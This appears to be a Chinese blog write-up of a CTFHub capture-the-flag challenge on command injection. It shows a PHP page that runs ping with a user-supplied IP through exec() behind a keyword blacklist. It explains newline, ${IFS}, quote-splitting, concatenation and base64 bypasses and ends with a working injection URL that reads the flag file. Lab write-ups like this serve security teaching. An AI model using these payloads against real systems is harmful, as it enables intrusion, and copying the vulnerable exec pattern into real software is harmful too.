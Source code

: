 ```yaml
---
layout:     post
title:      "CTFHUB 技能树-Web-RCE-综合过滤 wp"
subtitle:   ""
date:       2020-03-05 21:20:00
author:     "WuJ"
header-img: "img/post-bg-ctfhub.jpg"
tags:
    - CTFHUB
    - writeup
catalog: true
---
```




## 题目考点

- 命令执行绕过

--------

## 解题思路

![Xnip2020-03-05_20-57-49](https://tva1.sinaimg.cn/large/00831rSTgy1gcjclhhorrj310y0u0jwt.jpg)

​		给了源码，发现过滤了 `| & ; 空格 cat flag ctfhub`

​		如果输入上述符号或命令，只会回显其本身而不会被执行，需要一个个绕过

```php
<?php

$res = FALSE;

if (isset($_GET['ip']) && $_GET['ip']) {
    $ip = $_GET['ip'];
    $m = [];
    if (!preg_match_all("/(\||&|;| |\/|cat|flag|ctfhub)/", $ip, $m)) {
        $cmd = "ping -c 4 {$ip}";
        exec($cmd, $res);
    } else {
        $res = $m;
    }
}
?>
```

#### 命令分隔符

​		因为 `| 和 ;` 被过滤，首先要想办法分隔命令，可以使用多种绕过方法，一般用换行即 `%0a %0d` 即可。当然，得抓包修改，直接敲在输入框里肯定不行。

![Xnip2020-03-05_21-00-11](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcnz5t9dj31310u0qtk.jpg)

我们发现 `flag_is_here` 文件夹，下一步是想办法进去

#### 绕过空格

方法很多，一般可以使用 `${IFS}`，更多请参考谷歌

#### 绕过黑名单

1. 拼接绕过

   ```shell
   ~$ echo "hello world" > flag
   ~$ a=c;b=at;c=flag;$a$b $c
   hello world
   ```

2. 单双引号

   ```shell
   ~$ c''at f''lag
   hello world
   ```

3. base64绕过

   ```shell
   ~$ `echo "Y2F0IGZsYWc="|base64 -d`
   hello world
   ```

   ![Xnip2020-03-05_21-10-57](https://tva1.sinaimg.cn/large/00831rSTgy1gcjcywtw6kj31cu0u0qkt.jpg)

   找到 flag 文件，运用上述知识继续读 flag

   ```php
   /?ip=%0acd${IFS}f''lag_is_here%0ac''at${IFS}f''lag_244281822710491.php
   ```

![Xnip2020-03-05_21-12-30](https://tva1.sinaimg.cn/large/00831rSTgy1gcjd2bvlntj31cl0u0ngq.jpg)

